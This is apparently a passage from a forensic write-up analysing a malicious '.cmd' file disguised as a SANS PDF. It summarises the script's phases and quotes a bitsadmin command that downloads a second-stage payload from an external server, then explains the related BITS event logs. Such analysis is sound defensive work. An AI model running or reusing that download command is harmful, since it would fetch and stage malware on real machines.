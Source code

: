 _The following image shows the full script executed by **SANS SEC401.pdf .cmd**, along with the commands it runs._

- This script is responsible for multiple attack phases, including:
    - **Downloading malicious payloads** from an external server.
    - **Decoding files** to extract additional scripts.
    - **Executing commands** with bypassed security restrictions.
    - **Creating a scheduled task for persistence** to ensure continued execution.
    - **Deleting traces** to evade detection.

In the next section, I will provide a detailed breakdown of each command executed by this script.
![](images/allscript.png)

### Observed Attack Sequence:
Upon execution of **SANS SEC401.pdf .cmd**, the following events were triggered:

1. **Downloading the second-stage payload:**
   ```
   bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg
   ```
   - The malware downloads **amanwhogetsnorest.jpg** from an external server.
	_The following image shows the parsed **Windows Event Logs** related to a BITS (Background Intelligent Transfer Service) transfer, revealing key findings:_
	
	- **Event IDs:**
	    - `59` - BITS transfer has started
	    - `61` - BITS transfer has stopped
	    - `60` - BITS transfer has completed
	- **Timestamp:** The transfer occurred between `2024-02-03 07:34:23 UTC` and `2024-02-03 07:34:37 UTC`.
	- **Significance:** These events confirm that a file named **`amanwhogetsnorest.jpg`** was downloaded from **`http://172.18.35.10:8000/`** using **BITS**, a legitimate Windows service often abused by attackers for stealthy file transfers.
	- **Highlighted Line Explanation:** The red-marked log entry (`Event ID 60`) confirms that the **entire file (3816 bytes) was successfully transferred**, proving that the payload was successfully delivered to the system.
	![](images/bits.png)

